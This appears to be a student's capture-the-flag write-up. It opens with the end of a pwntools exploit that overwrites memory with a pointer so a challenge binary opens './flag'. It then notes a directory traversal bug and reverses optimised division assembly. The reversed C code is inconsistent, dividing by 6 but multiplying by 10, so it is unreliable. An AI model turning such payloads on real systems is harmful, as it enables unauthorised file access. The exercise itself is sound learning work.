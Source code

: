 ```
#at this point we have filled data until 0x0804c06c
#we will then add a pointer here to 0x0804c070
payload += p32(0x0804c070)
#we are now at 0x0804c070 which the above pointer points to so here we write the file to open
#the ./ makes the file look different, passing the check
#payload += b'./flat earth truth'
#flat earth truth revealed the flag is in /flag
payload += b'./flag'


p.sendlineafter("> ", payload)
p.interactive()
```
src challenge
=================
General overview of problems faced
--------------------------------------
lines: Bug
97: lack of sanitization of the `action` string. As a result directory traversal (with ../) is possible with the risk of leaking information.

re (reverse engineering challenge)
===========================

General overview of problems faced
-------------------------------------
The main problem here was working out what all the multiplication and right shift was doing. I came to understand that I was dealing with optimised assembly code, but it was hard to work out what it was an optimisation of. Particularly what was throwing me off was the constant value 0x2aaaaaab. After enough complicated google search queries I found something which somewhat resembled the structure of the code (containing a weird hex value, imul, sar and sub), and was able to look more into how signed integer division worked (which was actually pretty interesting).

Reversed C Code
------------------
NOTE: I was wrong about this and it was just modulo lol
```
int re_this(int arg1, int arg2) {
    return (arg1+arg2) - 10*((arg1+arg2)/6);
}
```

Below is my chain of working to get from low level to higher level.

```
re_this(arg1, arg2) {
    edx = arg1
    eax = arg2
    ecx = edx + eax = arg1 + arg2
    edx = 0x2aaaaab
    eax = ecx = arg1 + arg2
    edx:eax = edx*eax = 0x2aaaaaab * (arg1 + arg2)
    eax = ecx = arg1+arg2
    eax = eax >> 31 = (arg1+arg2) >> 31
    edx = edx - eax = edx - (arg1+arg2) >> 31
    eax = edx
    eax = 10eax
    ecx = ecx - eax
    edx = ecx
    eax = edx
    return eax
}
```
```
re_this(arg1, arg2) {
    ecx = arg1+arg2
```